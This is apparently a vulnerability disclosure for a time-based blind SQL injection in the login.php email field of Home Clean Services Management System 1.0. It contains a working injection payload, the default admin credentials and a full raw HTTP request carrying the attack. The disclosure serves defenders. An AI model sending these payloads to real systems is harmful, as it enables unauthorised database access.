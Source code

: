 # Home Clean Services Management System login.php email SQL injection

   
#### Exploit Title: Home Clean Services Management System login.php email SQL injection
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15293/home-clean-service-free-source-code.html
#### Software Link: https://www.sourcecodester.com/download-code?nid=15293&title=Home+Clean+Service+System+in+PHP+Free+Source+Code
#### Version: Home Clean Services Management System 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Home Clean Services Management System does not filter the content correctly at the "login.php" email module, resulting in the generation of SQL injection.

#### Payload used:
`admin%'/**/AND/**/(SELECT/**/5383/**/FROM/**/(SELECT(SLEEP(2)))JPeh)/**/AND/**/'frfq%'='frfq`

#### Proof of Concept

1. Login the CMS. 
Admin Default Access:
Email: admin
Password: admin

1. Open Page http://172.24.5.102/HCS/public_html/

2. Put sleep(2) payload  (`asdasd@mail.com'/**/AND/**/(SELECT/**/5383/**/FROM/**/(SELECT(SLEEP(2)))JPeh)/**/AND/**/'frfq%'='frfq`) in the email content and click on Login to publish the page,Viewing the successfully sleep 2 seconds.
![image](https://user-images.githubusercontent.com/60683449/169930053-7c6f9ef0-70b5-4574-9eb3-347aa9a990c4.png)
![image](https://user-images.githubusercontent.com/60683449/169930098-674259a5-c5c1-4a3c-bf3d-79f63156a634.png)



3. code
```POST /HCS/public_html/login.php HTTP/1.1
Host: 172.24.5.102
Pragma: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
X-Proxyman-Repeated-ID: 235A6C1C
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3A9hTgZJbOpWAKqH
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
Cache-Control: max-age=0
Origin: http://172.24.5.102
Referer: http://172.24.5.102/HCS/public_html/index.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Upgrade-Insecure-Requests: 1
Content-Length: 431
Connection: close
Cookie: PHPSESSID=fjbdak9heg1r2divhtlpubv986

------WebKitFormBoundary3A9hTgZJbOpWAKqH
Content-Disposition: form-data; name="email"

asdasd@mail.com'/**/AND/**/(SELECT/**/5383/**/FROM/**/(SELECT(SLEEP(2)))JPeh)/**/AND/**/'frfq%'='frfq
------WebKitFormBoundary3A9hTgZJbOpWAKqH
Content-Disposition: form-data; name="password"

1231312
------WebKitFormBoundary3A9hTgZJbOpWAKqH
Content-Disposition: form-data; name="login"


------WebKitFormBoundary3A9hTgZJbOpWAKqH--
```
